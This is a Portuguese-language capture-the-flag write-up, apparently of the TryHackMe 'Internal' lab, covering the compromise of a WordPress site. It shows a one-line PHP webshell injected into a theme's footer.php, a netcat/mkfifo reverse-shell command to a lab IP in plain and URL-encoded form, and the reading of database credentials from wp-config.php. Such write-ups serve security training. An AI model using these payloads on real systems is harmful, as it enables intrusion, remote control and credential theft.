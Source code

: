
Com o acesso ao painel WordPress e permissões para editar o tema `twentyseventeen`, modifiquei o arquivo `footer.php` para incluir um payload PHP simples que capturava um parâmetro via URL (`$_GET['cmd']`) e o executava no sistema operacional com `shell_exec`.

**Exemplo de código injetado no `footer.php`:**
`<?php if (isset($_GET['cmd'])) { echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; } ?>`

Esse trecho permitiu transformar o `footer.php` em uma **webshell rudimentar**, acessível por:
`http://internal.thm/blog/wp-content/themes/twentyseventeen/footer.php?cmd=COMANDO`


Inicialmente, tentei executar diretamente a seguinte payload:
`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.11.85.218 4444 > /tmp/f`

No entanto, **a execução falhou**, possivelmente devido ao modo como a URL interpreta caracteres especiais (como `>`, `|`, `&`). Para contornar isso, apliquei **URL encoding** à payload, transformando-a em:

`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.11.85.218%204444%20%3E%2Ftmp%2Ff`

**E obtive uma shell reversa funcional** como o usuário que executava o serviço web.

![](attachment/c0b356bb908bd2eae048210ed019b72b.png)

# 3.2 Uma vez dentro do sistema é hora de vasculhar

Após a obtenção de acesso remoto como o usuário `www-data` (usuário padrão do servidor web), iniciei a fase de enumeração local do sistema. Uma das primeiras descobertas foi a presença de um **usuário local chamado `aubreanna`**.

Entretanto, o usuário `www-data` possui **permissões limitadas**, impossibilitando o acesso direto à home do usuário ou a arquivos sensíveis fora do diretório da aplicação web.

Como o WordPress armazena configurações sensíveis no arquivo `wp-config.php`, localizei e visualizei seu conteúdo

> [!Informações do DB]
> define( 'DB_NAME', 'wordpress' );
> 
> /** MySQL database username */
> define( 'DB_USER', 'wordpress' );
> 
> /** MySQL database password */
> define( 'DB_PASSWORD', 'wordpress123' );
> 
> /** MySQL hostname */
> define( 'DB_HOST', 'localhost' );
